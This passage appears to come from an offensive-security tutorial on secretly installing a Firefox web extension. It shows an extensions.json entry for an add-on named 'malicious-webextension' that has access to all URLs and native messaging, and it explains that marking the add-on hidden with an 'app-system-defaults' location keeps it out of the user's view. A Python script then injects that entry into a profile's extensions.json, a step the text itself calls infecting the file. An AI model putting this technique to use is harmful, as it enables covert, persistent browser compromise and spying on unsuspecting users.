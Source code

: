 ```json
  "applyBackgroundUpdates": 1,
  "path": "/home/user/.mozilla/firefox/f22lasdy.default/extensions/malicious-webextension@github.io",
  "skinnable": false,
  "sourceURI": null,
  "releaseNotesURI": null,
  "softDisabled": false,
  "foreignInstall": false,
  "strictCompatibility": true,
  "locales": [],
  "targetApplications": [
    {
      "id": "toolkit@mozilla.org",
      "minVersion": "50.0",
      "maxVersion": null
    }
  ],
  "targetPlatforms": [],
  "signedState": 2,
  "seen": true,
  "dependencies": [],
  "userPermissions": {
    "permissions": [
      "nativeMessaging"
    ],
    "origins": [
      "<all_urls>"
    ]
  },
  "icons": {},
  "iconURL": null,
  "blocklistState": 0,
  "blocklistURL": null,
  "startupData": null,
  "hidden": true,
  "installTelemetryInfo": {
    "source": "about:addons",
    "method": "install-from-file"
  },
  "location": "app-system-defaults"
}
```

And here we have a really nice option called `location`, and it's nice because if we set the value to `app-system-defaults` then the webextension will not be visible on Firefox.
To automate the process of infecting this file we can use this python script:
```python
import json
extensions = json.loads(open('/home/user/.mozilla/firefox/profile-name/extensions.json').read())
plugin = json.loads(open('myexntension.json').read())
plugin['path'] = '/home/user/.mozilla/firefox/profile-name/extensions/malicious-webextension@github.io.xpi'
extensions['addons'].insert(len(extensions['addons']),plugin)
print(json.dumps(extensions))"
```
Then we replace the contents of `extensions.json` with the python script output.
